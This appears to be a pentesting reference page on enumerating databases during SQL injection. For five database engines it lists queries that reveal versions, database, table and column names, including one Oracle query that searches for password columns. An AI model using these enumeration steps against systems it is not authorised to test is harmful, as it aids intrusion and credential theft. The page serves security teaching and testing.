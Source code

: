 # Enum Database

## Theory

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains. 

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version 
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.  
The queries to determine the database version for some popular database types are as follows:  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names 
When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks. 

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:
```sql
SELECT database();
```
We can list all databases with the following query:
```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:
```sql
SELECT DB_NAME();
```
We can list all databases with the following queries:
```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:
```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```
We can list all databases with the following query:
```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:
```sql
SELECT current_database();
```
We can list all databases with the following query:
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract database structure with the following query
```sql
SELECT sql FROM sqlite_schema;
```
{% endtab %}
{% endtabs %}

### Tables Names 
The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;
SELECT table_name FROM all_tables WHERE owner = USER;

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names 
Next step is to enumerate columns within tables.It's a crucial step in the process of exploiting a SQL injection vulnerability.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';
```
{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
